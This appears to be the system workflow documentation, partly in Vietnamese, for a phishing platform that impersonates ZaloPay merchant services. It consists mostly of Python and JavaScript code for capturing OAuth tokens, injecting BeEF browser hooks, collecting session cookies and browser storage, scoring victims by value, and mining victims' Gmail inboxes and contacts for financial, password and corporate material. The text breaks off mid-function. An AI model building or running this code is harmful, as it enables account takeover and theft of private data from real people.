





# ZaloPay Merchant Phishing Platform - System Workflow Documentation

## Comprehensive System Workflow Analysis

### Executive Workflow Summary
ZaloPay Merchant Phishing Platform hoạt động theo quy trình khép kín từ victim acquisition đến intelligence exploitation, tích hợp 8 tầng xử lý độc lập nhưng đồng bộ để đảm bảo hiệu suất tối ưu và khả năng che giấu cao.

## Phase 1: Victim Acquisition & Initial Contact

### 1.1 Traffic Routing & Proxy Assignment


**Technical Implementation:**
```python
class VictimAcquisitionWorkflow:
    async def handle_initial_request(self, request):
        # Step 1: Analyze victim characteristics
        victim_profile = await self.analyze_request(request)
        
        # Step 2: Assign optimal proxy
        assigned_proxy = await self.proxy_manager.assign_victim_proxy(
            geo_preference=victim_profile.country,
            isp_preference=victim_profile.isp
        )
        
        # Step 3: Generate realistic fingerprint
        device_fingerprint = await self.fingerprint_engine.generate_profile(
            region=victim_profile.country,
            device_class=victim_profile.device_type
        )
        
        # Step 4: Create victim session
        victim_session = await self.create_victim_session(
            victim_profile, assigned_proxy, device_fingerprint
        )
        
        return victim_session
```

### 1.2 Landing Page Presentation & Trust Building
**Workflow Stages:**
1. **Domain Legitimacy Verification**: SSL certificate validation, domain age simulation
2. **Content Personalization**: Geographic và linguistic customization  
3. **Social Proof Integration**: Fake testimonials, business partnerships display
4. **Progressive Disclosure**: Multi-step information revelation để build confidence

**Landing Page Analytics:**
```javascript
class LandingPageAnalytics {
    trackVictimBehavior(sessionId) {
        return {
            time_on_page: this.calculateTimeSpent(),
            scroll_depth: this.measureScrollBehavior(), 
            click_heatmap: this.generateClickMap(),
            form_interaction: this.trackFormEngagement(),
            trust_indicators_viewed: this.trackTrustElements(),
            conversion_probability: this.calculateConversionScore()
        };
    }
    
    optimizeConversionPath(behaviorData) {
        // Dynamic content adjustment based on victim behavior
        if (behaviorData.scroll_depth < 0.3) {
            this.enhanceAboveTheFoldContent();
        }
        
        if (behaviorData.trust_indicators_viewed < 3) {
            this.increaseTestimonialVisibility();
        }
    }
}
```

## Phase 2: Authentication & Credential Capture

### 2.1 OAuth Flow Interception Architecture


**OAuth Token Extraction Engine:**
```python
class OAuthCaptureEngine:
    def __init__(self):
        self.oauth_providers = {
            'google': GoogleOAuthCapture(),
            'apple': AppleOAuthCapture(),
            'facebook': FacebookOAuthCapture()
        }
        self.token_storage = EncryptedTokenStorage()
    
    async def process_oauth_callback(self, provider, authorization_code, state):
        """Process OAuth callback và extract all possible tokens"""
        
        try:
            # Exchange authorization code for tokens
            token_response = await self.oauth_providers[provider].exchange_code(
                authorization_code, 
                self.generate_callback_url(provider)
            )
            
            # Extract comprehensive token set
            extracted_tokens = {
                'access_token': token_response.access_token,
                'refresh_token': token_response.refresh_token,
                'id_token': token_response.id_token,
                'expires_in': token_response.expires_in,
                'scope': token_response.scope,
                'token_type': token_response.token_type
            }
            
            # Get user profile information
            user_profile = await self.oauth_providers[provider].get_user_profile(
                extracted_tokens['access_token']
            )
            
            # Store captured data với encryption
            victim_record = await self.store_captured_data(
                provider, extracted_tokens, user_profile, state
            )
            
            # Queue for immediate validation
            await self.queue_token_validation(victim_record.id)
            
            # Inject BeEF hook for persistent access
            beef_payload = await self.beef_manager.create_hook_payload(victim_record.id)
            
            return {
                'victim_record': victim_record,
                'beef_payload': beef_payload,
                'redirect_url': self.generate_success_redirect()
            }
            
        except Exception as e:
            await self.log_capture_failure(provider, str(e))
            return self.generate_error_response()
    
    async def store_captured_data(self, provider, tokens, profile, session_state):
        """Store captured OAuth data với comprehensive metadata"""
        
        victim_data = {
            'capture_timestamp': datetime.utcnow(),
            'oauth_provider': provider,
            'tokens': await self.token_storage.encrypt_tokens(tokens),
            'profile': {
                'email': profile.get('email'),
                'name': profile.get('name'),
                'verified_email': profile.get('verified_email'),
                'picture': profile.get('picture'),
                'google_id': profile.get('id') if provider == 'google' else None
            },
            'session_metadata': {
                'user_agent': session_state.user_agent,
                'ip_address': session_state.ip_address,
                'proxy_used': session_state.assigned_proxy,
                'fingerprint': session_state.device_fingerprint,
                'referrer': session_state.referrer,
                'campaign_attribution': session_state.campaign_id
            },
            'capture_status': 'pending_validation'
        }
        
        # Store in database
        victim_record = await self.db.victims.insert_one(victim_data)
        
        # Send real-time notification to admin
        await self.notification_system.notify_new_capture(victim_record)
        
        return victim_record
```

### 2.2 Session Hijacking & Cookie Capture
**Advanced Session Capture:**
```javascript
class SessionCaptureEngine {
    constructor() {
        this.capturePoints = [
            'document.cookie',
            'localStorage', 
            'sessionStorage',
            'indexedDB',
            'webSQL'
        ];
    }
    
    async captureSessionData() {
        const sessionData = {
            cookies: await this.extractAllCookies(),
            localStorage: await this.extractLocalStorage(),
            sessionStorage: await this.extractSessionStorage(),
            browserStorage: await this.extractBrowserStorage(),
            authTokens: await this.extractAuthTokens(),
            browserFingerprint: await this.generateBrowserFingerprint()
        };
        
        // Send to capture endpoint
        await fetch('/api/capture/session', {
            method: 'POST',
            body: JSON.stringify(sessionData),
            credentials: 'include'
        });
        
        return sessionData;
    }
    
    async extractAllCookies() {
        const cookies = {};
        document.cookie.split(';').forEach(cookie => {
            const [name, value] = cookie.trim().split('=');
            cookies[name] = {
                value: value,
                domain: window.location.hostname,
                path: '/',
                secure: window.location.protocol === 'https:',
                httpOnly: false // Client-side accessible
            };
        });
        
        // Also attempt to extract HttpOnly cookies via exploitation
        try {
            const httpOnlyCookies = await this.extractHttpOnlyCookies();
            Object.assign(cookies, httpOnlyCookies);
        } catch (e) {
            console.log('HttpOnly cookie extraction failed');
        }
        
        return cookies;
    }
}
```

## Phase 3: Credential Validation & Intelligence Gathering

### 3.1 Automated Credential Validation Pipeline


**Comprehensive Validation Engine:**
```python
class CredentialValidationPipeline:
    def __init__(self):
        self.validation_modules = {
            'oauth_validation': OAuthTokenValidator(),
            'profile_enrichment': ProfileEnrichmentEngine(),
            'business_intelligence': BusinessIntelligenceAnalyzer(),
            'market_classification': MarketValueClassifier(),
            'security_assessment': SecurityPostureAnalyzer()
        }
    
    async def process_validation_queue(self):
        """Main validation pipeline processor"""
        while True:
            try:
                # Get next victim for validation
                pending_victim = await self.get_next_pending_validation()
                if not pending_victim:
                    await asyncio.sleep(30)  # Wait for new captures
                    continue
                
                # Execute comprehensive validation
                validation_results = await self.validate_victim_comprehensive(pending_victim)
                
                # Update victim record
                await self.update_victim_validation_results(
                    pending_victim.id, 
                    validation_results
                )
                
                # Notify admin if high-value target
                if validation_results.market_value == 'high':
                    await self.notification_system.alert_high_value_target(
                        pending_victim, validation_results
                    )
                
            except Exception as e:
                self.logger.error(f"Validation pipeline error: {e}")
                await asyncio.sleep(60)  # Backoff on error
    
    async def validate_victim_comprehensive(self, victim):
        """Execute comprehensive victim validation"""
        
        validation_results = {
            'timestamp': datetime.utcnow(),
            'oauth_validation': {},
            'profile_data': {},
            'business_intelligence': {},
            'security_assessment': {},
            'market_classification': {},
            'recommendations': []
        }
        
        # 1. OAuth Token Validation
        if victim.oauth_tokens:
            oauth_results = await self.validation_modules['oauth_validation'].validate(
                victim.oauth_tokens
            )
            validation_results['oauth_validation'] = oauth_results
        
        # 2. Profile Enrichment
        if oauth_results.get('valid', False):
            profile_data = await self.validation_modules['profile_enrichment'].enrich(
                victim.oauth_tokens, oauth_results
            )
            validation_results['profile_data'] = profile_data
        
        # 3. Business Intelligence Analysis
        business_intel = await self.validation_modules['business_intelligence'].analyze(
            validation_results['profile_data']
        )
        validation_results['business_intelligence'] = business_intel
        
        # 4. Security Posture Assessment
        security_assessment = await self.validation_modules['security_assessment'].assess(
            victim, validation_results
        )
        validation_results['security_assessment'] = security_assessment
        
        # 5. Market Value Classification
        market_classification = await self.validation_modules['market_classification'].classify(
            validation_results
        )
        validation_results['market_classification'] = market_classification
        
        # 6. Generate exploitation recommendations
        validation_results['recommendations'] = await self.generate_exploitation_recommendations(
            validation_results
        )
        
        return validation_results
    
    async def generate_exploitation_recommendations(self, validation_results):
        """Generate actionable exploitation recommendations"""
        
        recommendations = []
        
        # Gmail exploitation recommendations
        if validation_results['oauth_validation'].get('gmail_access', False):
            recommendations.append({
                'type': 'gmail_exploitation',
                'priority': 'high',
                'description': 'Full Gmail access available - extract emails, contacts, attachments',
                'estimated_value': validation_results['market_classification']['estimated_value'],
                'recommended_actions': [
                    'extract_business_emails',
                    'harvest_contact_database', 
                    'download_sensitive_attachments',
                    'analyze_email_patterns'
                ]
            })
        
        # Business intelligence recommendations
        if validation_results['business_intelligence'].get('business_account', False):
            recommendations.append({
                'type': 'business_intelligence',
                'priority': 'high', 
                'description': 'Business account detected - high-value target for corporate intelligence',
                'recommended_actions': [
                    'extract_corporate_contacts',
                    'identify_key_executives',
                    'map_business_relationships',
                    'analyze_financial_communications'
                ]
            })
        
        # Social engineering recommendations
        if validation_results['security_assessment'].get('social_engineering_vulnerability', 0) > 0.7:
            recommendations.append({
                'type': 'social_engineering',
                'priority': 'medium',
                'description': 'High social engineering vulnerability - suitable for advanced campaigns',
                'recommended_actions': [
                    'beef_browser_exploitation',
                    'credential_harvesting_expansion',
                    'phishing_campaign_expansion'
                ]
            })
        
        return recommendations
```

### 3.2 Business Intelligence Analysis Engine
**Advanced Profile Analysis:**
```python
class BusinessIntelligenceAnalyzer:
    def __init__(self):
        self.analysis_modules = {
            'email_analysis': EmailDomainAnalyzer(),
            'contact_analysis': ContactNetworkAnalyzer(), 
            'content_analysis': EmailContentAnalyzer(),
            'relationship_mapping': RelationshipMapper(),
            'company_research': CompanyIntelligenceEngine()
        }
    
    async def analyze_business_profile(self, profile_data):
        """Comprehensive business intelligence analysis"""
        
        analysis_results = {
            'account_classification': 'personal',  # personal, business, enterprise
            'business_indicators': [],
            'company_information': {},
            'executive_level': 0,  # 0-10 scale
            'network_value': 0,    # 0-10 scale  
            'intelligence_opportunities': []
        }
        
        # Analyze email domain
        email_analysis = await self.analysis_modules['email_analysis'].analyze(
            profile_data.get('email', '')
        )
        
        if email_analysis.get('business_domain', False):
            analysis_results['account_classification'] = 'business'
            analysis_results['business_indicators'].extend(email_analysis['indicators'])
            
            # Deep company research
            company_research = await self.analysis_modules['company_research'].research(
                email_analysis['domain']
            )
            analysis_results['company_information'] = company_research
        
        # Analyze contact network if available
        if profile_data.get('contacts'):
            contact_analysis = await self.analysis_modules['contact_analysis'].analyze(
                profile_data['contacts']
            )
            
            analysis_results['network_value'] = contact_analysis['network_value_score']
            analysis_results['executive_level'] = contact_analysis['executive_level_score']
        
        # Content analysis from emails
        if profile_data.get('email_content'):
            content_analysis = await self.analysis_modules['content_analysis'].analyze(
                profile_data['email_content']
            )
            
            analysis_results['intelligence_opportunities'].extend(
                content_analysis['opportunities']
            )
        
        # Relationship mapping
        relationship_map = await self.analysis_modules['relationship_mapping'].map(
            profile_data
        )
        analysis_results['relationship_network'] = relationship_map
        
        return analysis_results
```

## Phase 4: Admin Dashboard & Management Interface

### 4.1 Real-Time Dashboard Architecture


**Dashboard Data Pipeline:**
```python
class AdminDashboardSystem:
    def __init__(self):
        self.websocket_manager = WebSocketManager()
        self.analytics_engine = DashboardAnalyticsEngine()
        self.permission_engine = AdminPermissionEngine()
        self.real_time_updater = RealTimeDataUpdater()
    
    async def initialize_admin_session(self, admin_credentials):
        """Initialize secure admin dashboard session"""
        
        # Multi-factor authentication
        mfa_result = await self.verify_admin_mfa(admin_credentials)
        if not mfa_result.success:
            raise AuthenticationError("MFA verification failed")
        
        # Create secure admin session
        admin_session = await self.create_admin_session(admin_credentials.user_id)
        
        # Generate dashboard data
        dashboard_data = await self.generate_dashboard_data(admin_session)
        
        # Establish WebSocket connection
        websocket_connection = await self.websocket_manager.create_connection(
            admin_session.session_id
        )
        
        # Start real-time updates
        await self.start_real_time_updates(websocket_connection)
        
        return {
            'admin_session': admin_session,
            'dashboard_data': dashboard_data,
            'websocket_connection': websocket_connection
        }
    
    async def generate_dashboard_data(self, admin_session):
        """Generate comprehensive dashboard statistics"""
        
        # Check admin permissions
        accessible_data = await self.permission_engine.get_accessible_data(
            admin_session.admin_id
        )
        
        # Gather statistics
        dashboard_stats = {
            'overview_metrics': await self.get_overview_metrics(accessible_data),
            'victim_analytics': await self.get_victim_analytics(accessible_data),
            'campaign_performance': await self.get_campaign_performance(accessible_data),
            'geographic_distribution': await self.get_geographic_data(accessible_data),
            'time_series_data': await self.get_time_series_metrics(accessible_data),
            'high_value_alerts': await self.get_high_value_alerts(accessible_data)
        }
        
        return dashboard_stats
    
    async def get_overview_metrics(self, accessible_data):
        """Calculate overview metrics với real-time data"""
        
        # Base metrics
        total_victims = await self.db.victims.count_documents(accessible_data.victim_filter)
        valid_credentials = await self.db.victims.count_documents({
            **accessible_data.victim_filter,
            'validation.status': 'validated'
        })
        
        # High-value targets
        high_value_targets = await self.db.victims.count_documents({
            **accessible_data.victim_filter,
            'validation.market_value': 'high'
        })
        
        # Business accounts
        business_accounts = await self.db.victims.count_documents({
            **accessible_data.victim_filter,
            'validation.account_type': 'business'
        })
        
        # Campaign performance
        active_campaigns = await self.db.campaigns.count_documents({
            'status': 'active',
            **accessible_data.campaign_filter
        })
        
        # Recent activity (last 24 hours)
        last_24h = datetime.utcnow() - timedelta(hours=24)
        recent_captures = await self.db.victims.count_documents({
            **accessible_data.victim_filter,
            'capture_date': {'$gte': last_24h}
        })
        
        return {
            'total_victims': total_victims,
            'valid_credentials': valid_credentials,
            'success_rate': valid_credentials / total_victims if total_victims > 0 else 0,
            'high_value_targets': high_value_targets,
            'business_accounts': business_accounts,
            'active_campaigns': active_campaigns,
            'recent_captures_24h': recent_captures,
            'capture_rate_trend': await self.calculate_capture_trend()
        }
```

### 4.2 Victim Management Interface
**Advanced Victim Management System:**
```python
class VictimManagementSystem:
    def __init__(self):
        self.search_engine = VictimSearchEngine()
        self.export_engine = DataExportEngine()
        self.bulk_operations = BulkOperationManager()
    
    async def get_victim_list(self, admin_session, filters=None, pagination=None):
        """Advanced victim list với filtering và pagination"""
        
        # Build search query
        search_query = await self.search_engine.build_query(
            filters=filters or {},
            admin_permissions=admin_session.permissions
        )
        
        # Execute aggregation pipeline
        victims_pipeline = [
            {'$match': search_query},
            {'$lookup': {
                'from': 'oauth_tokens',
                'localField': '_id',
                'foreignField': 'victim_id',
                'as': 'oauth_data'
            }},
            {'$lookup': {
                'from': 'campaigns', 
                'localField': 'campaign_id',
                'foreignField': '_id',
                'as': 'campaign_info'
            }},
            {'$lookup': {
                'from': 'gmail_access_logs',
                'localField': '_id',
                'foreignField': 'victim_id',
                'as': 'gmail_access_history'
            }},
            {'$addFields': {
                'last_gmail_access': {'$max': '$gmail_access_history.created_at'},
                'gmail_access_count': {'$size': '$gmail_access_history'},
                'oauth_providers': '$oauth_data.provider'
            }},
            {'$sort': self.build_sort_criteria(filters.get('sort', 'capture_date_desc'))},
            {'$skip': pagination.get('skip', 0) if pagination else 0},
            {'$limit': pagination.get('limit', 50) if pagination else 50}
        ]
        
        victims_data = await self.db.victims.aggregate(victims_pipeline).to_list()
        
        # Calculate total count for pagination
        total_count = await self.db.victims.count_documents(search_query)
        
        # Enrich với additional data
        enriched_victims = await self.enrich_victim_data(victims_data)
        
        return {
            'victims': enriched_victims,
            'total_count': total_count,
            'current_page': pagination.get('page', 1) if pagination else 1,
            'per_page': pagination.get('limit', 50) if pagination else 50,
            'filters_applied': filters,
            'available_actions': await self.get_available_actions(admin_session)
        }
    
    async def enrich_victim_data(self, victims_data):
        """Enrich victim data với additional intelligence"""
        
        enriched_victims = []
        
        for victim in victims_data:
            # Calculate intelligence score
            intelligence_score = await self.calculate_intelligence_score(victim)
            
            # Determine exploitation opportunities
            exploitation_opportunities = await self.identify_exploitation_opportunities(victim)
            
            # Add BeEF session status
            beef_status = await self.get_beef_session_status(victim['_id'])
            
            # Enhance victim record
            enriched_victim = {
                **victim,
                'intelligence_score': intelligence_score,
                'exploitation_opportunities': exploitation_opportunities,
                'beef_session_status': beef_status,
                'risk_assessment': await self.assess_victim_risk(victim),
                'recommended_actions': await self.recommend_victim_actions(victim)
            }
            
            enriched_victims.append(enriched_victim)
        
        return enriched_victims
```

## Phase 5: Gmail Exploitation & Intelligence Extraction

### 5.1 OAuth-Based Gmail Access Workflow


**Gmail Exploitation Engine:**
```python
class GmailExploitationEngine:
    def __init__(self):
        self.gmail_client = GmailAPIClient()
        self.data_extractor = IntelligentDataExtractor()
        self.analysis_engine = EmailAnalysisEngine()
        self.export_manager = SecureExportManager()
    
    async def initiate_gmail_exploitation(self, victim_id, admin_session, extraction_config):
        """Comprehensive Gmail exploitation workflow"""
        
        exploitation_session = {
            'session_id': self.generate_exploitation_session_id(),
            'victim_id': victim_id,
            'admin_id': admin_session.admin_id,
            'start_time': datetime.utcnow(),
            'extraction_config': extraction_config,
            'results': {
                'emails': [],
                'contacts': [],
                'attachments': [],
                'calendar_events': [],
                'intelligence_summary': {}
            }
        }
        
        try:
            # Establish Gmail access
            gmail_service = await self.establish_gmail_access(victim_id, admin_session)
            
            # Execute extraction phases
            if extraction_config.get('extract_emails', True):
                email_results = await self.extract_email_intelligence(
                    gmail_service, extraction_config.get('email_config', {})
                )
                exploitation_session['results']['emails'] = email_results
            
            if extraction_config.get('extract_contacts', True):
                contact_results = await self.extract_contact_intelligence(
                    gmail_service, extraction_config.get('contact_config', {})
                )
                exploitation_session['results']['contacts'] = contact_results
            
            if extraction_config.get('extract_attachments', True):
                attachment_results = await self.extract_attachment_intelligence(
                    gmail_service, extraction_config.get('attachment_config', {})
                )
                exploitation_session['results']['attachments'] = attachment_results
            
            if extraction_config.get('extract_calendar', False):
                calendar_results = await self.extract_calendar_intelligence(
                    gmail_service, extraction_config.get('calendar_config', {})
                )
                exploitation_session['results']['calendar_events'] = calendar_results
            
            # Analyze extracted intelligence
            intelligence_analysis = await self.analyze_extracted_intelligence(
                exploitation_session['results']
            )
            exploitation_session['results']['intelligence_summary'] = intelligence_analysis
            
            # Store exploitation results
            await self.store_exploitation_results(exploitation_session)
            
            # Generate export packages
            export_packages = await self.generate_export_packages(
                exploitation_session, extraction_config.get('export_formats', ['csv', 'json'])
            )
            
            exploitation_session['export_packages'] = export_packages
            exploitation_session['end_time'] = datetime.utcnow()
            exploitation_session['success'] = True
            
        except Exception as e:
            exploitation_session['error'] = str(e)
            exploitation_session['success'] = False
            exploitation_session['end_time'] = datetime.utcnow()
            
            # Log exploitation failure
            await self.log_exploitation_failure(victim_id, admin_session.admin_id, str(e))
        
        finally:
            # Log exploitation attempt
            await self.log_gmail_exploitation(exploitation_session)
        
        return exploitation_session
    
    async def extract_email_intelligence(self, gmail_service, email_config):
        """Advanced email intelligence extraction"""
        
        # Define intelligent search queries
        intelligence_queries = [
            # Business intelligence
            'subject:contract OR subject:agreement OR subject:proposal',
            'subject:invoice OR subject:payment OR subject:billing',
            'subject:confidential OR subject:private OR subject:internal',
            
            # Financial intelligence
            'from:bank OR from:paypal OR from:financial',
            'subject:loan OR subject:credit OR subject:investment',
            
            # Security intelligence  
            'subject:password OR subject:reset OR subject:verification',
            'subject:security OR subject:alert OR subject:suspicious',
            
            # Corporate intelligence
            'subject:board OR subject:executive OR subject:management',
            'subject:merger OR subject:acquisition OR subject:partnership'
        ]
        
        extracted_emails = []
        
        for query in intelligence_queries:
            try:
                # Execute search query
                search_results = gmail_service.users().messages().list(
                    userId='me',
                    q=query,
                    maxResults=email_config.get('max_per_query', 100)
                ).execute()
                
                # Process each email
                for message_ref in search_results.get('messages', []):
                    message = gmail_service.users().messages().get(
                        userId='me',
                        id=message_ref['id'],
                        format='full'
                    ).execute()
                    
                    # Analyze email content
                    email_analysis = await self.analysis_engine.analyze_email(message)
                    
                    # Only store high-value emails
                    if email_analysis['intelligence_value'] > 0.6:
                        email_data = {
                            'message_id': message['id'],
                            'thread_id': message['threadId'],
                            'subject': self.extract_header(message, 'Subject'),
                            'from': self.extract_header(message, 'From'),
                            'to': self.extract_header(message, 'To'),
                            'cc': self.extract_header(message, 'Cc'),
                            'date': self.extract_header(message, 'Date'),
                            'body_text': self.extract_body_text(message),
                            'body_html': self.extract_body_html(message),
                            'attachments': self.extract_attachment_metadata(message),
                            'labels': message.get('labelIds', []),
                            'analysis': email_analysis,
                            'extraction_query': query
                        }
                        
                        extracted_emails.append(email_data)
                
                # Rate limiting
                await asyncio.sleep(random.uniform(1, 3))
                
            except Exception as e:
                self.logger.warning(f"Email extraction failed for query '{query}': {e}")
        
        # Remove duplicates và sort by intelligence value
        unique_emails = self.remove_duplicate_emails(extracted_emails)
        sorted_emails = sorted(
            unique_emails, 
            key=lambda x: x['analysis']['intelligence_value'], 
            reverse=True
        )
        
        return sorted_emails[:email_config.get('max_total_emails', 500)]
    
    async def extract_contact_intelligence(self, gmail_service, contact_config):
        """Comprehensive contact intelligence extraction"""
        
        try:
            # Use People API to extract contacts
            people_service = build('people', 'v1', credentials=gmail_service._credentials)
            
            # Get all contacts
            contacts_result = people_service.people().connections().list(
                resourceName='people/me',
                pageSize=2000,
                personFields='names,emailAddresses,phoneNumbers,organizations,biographies,addresses,relations'
            ).execute()
            
            extracted_contacts = []
            
            for person in contacts_result.get('connections', []):
                # Extract contact information
                contact_data = {
                    'resource_name': person.get('resourceName'),
                    'names': person.get('names', []),
                    'email_addresses': person.get('emailAddresses', []),
                    'phone_numbers': person.get('phoneNumbers', []),
                    'organizations': person.get('organizations', []),
                    'biographies': person.get('biographies', []),
                    'addresses': person.get('addresses', []),
                    'relations': person.get('relations', [])
                }
                
                # Analyze contact value
                contact_analysis = await self.analyze_contact_intelligence(contact_data)
                contact_data['analysis'] = contact_analysis
                
                extracted_contacts.append(contact_data)
            
            # Sort by intelligence value
            sorted_contacts = sorted(
                extracted_contacts,
                key=lambda x: x['analysis']['intelligence_value'],
                reverse=True
            )
            
            return sorted_contacts
            
        except Exception as e:
            self.logger.error(f"Contact extraction failed: {e}")
            return []
    
    async def analyze_extracted_intelligence(self, extraction_results):
        """Comprehensive intelligence analysis của extracted data"""
        
        intelligence_summary = {
            'overall_intelligence_score': 0,
            'business_intelligence': {
                'corporate_emails': 0,
                'financial_documents': 0,
                'executive_communications': 0,
                'confidential_content': 0
            },
            'network_intelligence': {
                'total_contacts': len(extraction_results.get('contacts', [])),
                'business_contacts': 0,
                'executive_contacts': 0,
                'high_value_relationships': 0
            },
            'security_intelligence': {
                'password_related_emails': 0,
                'security_alerts': 0,
                'account_information': 0
            },
            'actionable_intelligence': [],
            'recommendations': []
        }
        
        # Analyze emails
        for email in extraction_results.get('emails', []):
            email_analysis = email.get('analysis', {})
            
            if email_analysis.get('business_content', False):
                intelligence_summary['business_intelligence']['corporate_emails'] += 1
            
            if email_analysis.get('financial_content', False):
                intelligence_summary['business_intelligence']['financial_documents'] += 1
            
            if email_analysis.get('executive_communication', False):
                intelligence_summary['business_intelligence']['executive_communications'] += 1
            
            if email_analysis.get('confidential_content', False):
                intelligence_summary['business_intelligence']['confidential_content'] += 1
        
        # Analyze contacts
        for contact in extraction_results.get('contacts', []):
            contact_analysis = contact.get('analysis', {})
            
            if contact_analysis.get('business_contact', False):
                intelligence_summary['network_intelligence']['business_contacts'] += 1
            
            if contact_analysis.get('executive_level', 0) > 0.7:
                intelligence_summary['network_intelligence']['executive_contacts'] += 1
            
